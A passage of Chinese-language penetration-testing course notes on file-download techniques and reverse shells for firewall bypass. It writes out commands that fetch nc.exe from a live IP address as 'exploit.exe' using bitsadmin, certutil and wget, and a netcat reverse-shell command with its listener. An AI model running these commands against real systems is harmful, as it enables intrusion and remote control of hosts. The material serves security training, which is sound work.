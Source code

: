 Windows-Bitsadmin:bitsadmin /rawreturn /transfer down "http://47.100.167.248:8081/nc.exe" c:\\exploit.exe



下载的时候也要看是否有权限执行，如果没有执行权限，那下载也不会成功

把NC.exe上传至根目录。在kali中执行wget http://47.100.167.248:8081/NC.exe -O exploit.exe，就可以下载文件。

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720344431932-516b55b3-c790-4bbe-bf20-4638df481b1e.png)

cmd执行：

certutil.exe -urlcache -split -f http://47.100.167.248:8081/NC.exe exploit.exe

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720344450675-75859d3a-98ba-4c8f-b9bf-4889fc0740b0.png)

## 三、反弹Shell命令-解决数据回显&解决数据通讯

### 反弹shell原因：

执行命令的时候，会有数据的回显，告诉自己这个命令是不是执行成功，有没有文件，但是在大部分的测试环境是没有回显的或者是回显是不齐全的。

例如：

useradd 用户名 passwd 密码

测试Linux系统添加用户或修改密码命令交互回显问题

交互时：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720344494592-e732c8ce-032f-450d-a468-ce1cbbdb02b4.png)

回显式：


![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720344518817-33332625-d7a0-432d-91b7-900b2a34738c.png)

## 案例：防火墙绕过-正向连接&反向连接&内网服务器

1.内网  xiaodi8就是服务器

内网 -> xiaodi8



//内网给shell（nc -e cmd 192.168.192.132 5577）   ip为要发送给监听器的ip

 xiaodi8监听(nc -lvvp 5577)

 xiaodi8 !-> 内网



2.防火墙情况下

情况1：xiaodi8 <-> 阿里云  可以互nc



情况2：xiaodi8防火墙 -> 阿里云
